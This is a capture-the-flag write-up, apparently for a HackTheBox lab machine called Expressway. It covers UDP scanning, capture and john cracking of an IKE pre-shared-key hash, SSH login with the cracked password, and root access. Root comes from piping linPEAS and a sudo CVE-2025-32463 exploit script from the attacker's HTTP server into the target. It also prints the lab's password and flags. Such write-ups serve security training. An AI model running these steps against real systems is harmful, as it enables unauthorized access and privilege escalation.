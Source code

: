 ```yaml
---
layout: default
title: Expressway
---
```


### Recon
We start with `nmap`, using this command:
```bash
nmap -p- -sVC --min-rate=10000 $target
```

![nmap results](image.png)

```bash
PORT      STATE    SERVICE VERSION
22/tcp    open     ssh     OpenSSH 10.0p2 Debian 8 (protocol 2.0)
7958/tcp  filtered unknown
15520/tcp filtered unknown
17165/tcp filtered unknown
25481/tcp filtered unknown
26111/tcp filtered unknown
26688/tcp filtered unknown
34466/tcp filtered unknown
47939/tcp filtered unknown
61696/tcp filtered unknown
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

I've tried to brute force using `nmap`, this command, but i got nothing:
```bash
nmap -p 22 --script ssh-brute $target   
```
Then, I used the flag `-sU` to scan also `UDP` ports:
```bash
nmap -sU $target --min-rate=10000
```
And we did get:
```bash
PORT      STATE  SERVICE
500/udp   open   isakmp
17207/udp closed unknown
21803/udp closed unknown
23176/udp closed unknown
40116/udp closed unknown
49190/udp closed unknown
49201/udp closed unknown
```
So, we have the port `500` open, and running the service `isakmp`.

### achieve hash and crack it

Okay, we can google for it, and find this article: https://angelica.gitbook.io/hacktricks/network-services-pentesting/ipsec-ike-vpn-pentesting

When we execute this
```bash
ike-scan -M -A $target
```
![get ike](image-2.png)

as we can see, we got some details about the key.

We can use more aggressive mode, and by this way achieve the hash that we will crack using `john`, the hash of the user `ike`.

```bash
┌──(agonen㉿kali)-[~/htb/Expressway]
└─$ ike-scan -M -A  $target  --pskcrack=hash.txt -n ike@expressway.htb
Starting ike-scan 1.9.6 with 1 hosts (http://www.nta-monitor.com/tools/ike-scan/)
10.10.11.87     Aggressive Mode Handshake returned
        HDR=(CKY-R=a34c14be44d2c76c)
        SA=(Enc=3DES Hash=SHA1 Group=2:modp1024 Auth=PSK LifeType=Seconds LifeDuration=28800)
        KeyExchange(128 bytes)
        Nonce(32 bytes)
        ID(Type=ID_USER_FQDN, Value=ike@expressway.htb)
        VID=09002689dfd6b712 (XAUTH)
        VID=afcad71368a1f1c96b8696fc77570100 (Dead Peer Detection v1.0)
        Hash(20 bytes)

Ending ike-scan 1.9.6: 1 hosts scanned in 0.176 seconds (5.67 hosts/sec).  1 returned handshake; 0 returned notify
```

![achieve hash](image-2.png)

Now, let's transfrom it into `john`, using `ikescan2john`:
```bash
ikescan2john hash.txt > hash_to_crack.txt
```

And we just need to crack it using `john`:
```bash
john hash_to_crack.txt --wordlist=/usr/share/wordlists/rockyou.txt       
```

The password is `freakingrockstarontheroad`.

### Connect using ssh

Let's connect using `ssh` and the password we achieved, which is `freakingrockstarontheroad`:
```bash
ssh ike@$target
```
![ssh connect](image-4.png)

now, the user flag can be found in `/hone/ike/user.txt`:
```bash
ike@expressway:~$ cat /home/ike/user.txt
93092f0e609abb35cc2d3ff19c4d2d25
```

### Privilege escalation

First, we want to download the linPEAS, so i download it to my local machine:
```bash
curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh -o linPEAS.sh
```
and then set up an http server:
```bash
python3 -m http.server 8081
```

Now, we can access it from the remote machine
```bash
curl -L http://10.10.14.168:8081/linPEAS.sh | sh
```

As we can see, the sudo version is `1.9.17`.
![sudo version](image-5.png)

After googling, i found this repo about the privilege escalation in this version: https://github.com/K3ysTr0K3R/CVE-2025-32463-EXPLOIT

Let's get the `exploit.sh`, so in our local machine:
```
curl -L https://raw.githubusercontent.com/K3ysTr0K3R/CVE-2025-32463-EXPLOIT/refs/heads/main/CVE-2025-32463.sh -o CVE-2025-32463.sh

python3 -m http.server 8081
```

and on the remote machine
```bash
curl -L http://10.10.14.168:8081/CVE-2025-32463.sh -o /tmp/CVE-2025-32463.sh
chmod +x /tmp/CVE-2025-32463.sh
/tmp/CVE-2025-32463.sh
```
![escalate privilege](image-6.png)

and now just getting the flag:
```bash
root@expressway:/# cat /root/root.txt
4975c6bab82fddda6d3028507713e49b
```

![root flag](image-1.png)

**User Flag:*****`93092f0e609abb35cc2d3ff19c4d2d25`***

**Root Flag:*****`4975c6bab82fddda6d3028507713e49b`***
